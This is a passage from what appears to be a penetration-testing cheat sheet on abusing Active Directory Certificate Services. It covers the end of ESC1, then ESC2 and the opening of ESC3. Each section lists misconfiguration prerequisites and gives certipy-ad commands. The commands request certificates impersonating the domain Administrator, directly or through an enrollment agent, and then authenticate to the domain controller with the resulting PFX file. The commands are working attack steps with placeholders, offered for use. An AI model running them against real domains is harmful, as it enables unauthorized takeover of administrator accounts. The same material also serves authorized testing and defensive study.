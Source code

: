 #### Usage

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -template '<TEMPLATE>' -upn 'Administrator@<DOMAIN>' -dns <RHOST>
```

```console
$ certipy-ad auth -pfx Administrator.pfx -dc-ip <RHOST>
```

### ESC2: Misconfigured Certificate Templates

#### Prerequisistes

- The Enterprise CA grants low-privileged users enrollment rights
- Manager approval is disabled
	- `mspki-enrollment-flag` attribute needs to be set to `0x00000000`
- No authorized signatures are required
	- `msPKI-RA-Signature` attribute needs to be set to `0x00000000`
- An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users
- The certificate template defines Any Purpose EKUs or no EKU

#### Usage

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -template '<TEMPLATE>'
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -template User -on-behalf-of '<DOMAIN>\Administrator' -pfx <USERNAME>.pfx
```

```console
$ certipy-ad auth -pfx Administrator.pfx -dc-ip <RHOST>
```

### ESC3: Enrollment Agent Templates

#### Prerequisistes

- The Enterprise CA grants low-privileged users enrollment rights
- Manager approval is disabled
	- `mspki-enrollment-flag` attribute needs to be set to `0x00000000`
- No authorized signatures are required
	- `msPKI-RA-Signature` attribute needs to be set to `0x00000000`
- An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users
- The certificate template defines the Certificate Request Agent EKU
	- The `Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1)` allows for requesting other certificate templates on behalf of other principals
- Enrollment agent restrictions are not implemented on the CA

